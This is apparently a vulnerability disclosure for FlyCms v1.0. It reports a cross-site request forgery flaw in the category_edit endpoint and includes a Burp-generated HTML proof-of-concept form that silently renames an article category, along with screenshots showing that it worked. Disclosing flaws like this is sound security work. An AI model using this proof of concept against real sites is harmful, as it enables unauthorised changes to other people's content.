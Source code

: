 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/article/category_edit

![1](https://github.com/sms2056/cms/assets/15358350/be5da3c0-58eb-4458-8c10-e74f754da95c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/article/category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%91123" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/sms2056/cms/assets/15358350/cf970a97-c73c-4c09-8f0d-dbb98b24f0c2)


Successed

![3](https://github.com/sms2056/cms/assets/15358350/d058b1cc-765b-44a9-b805-591dc42397da)
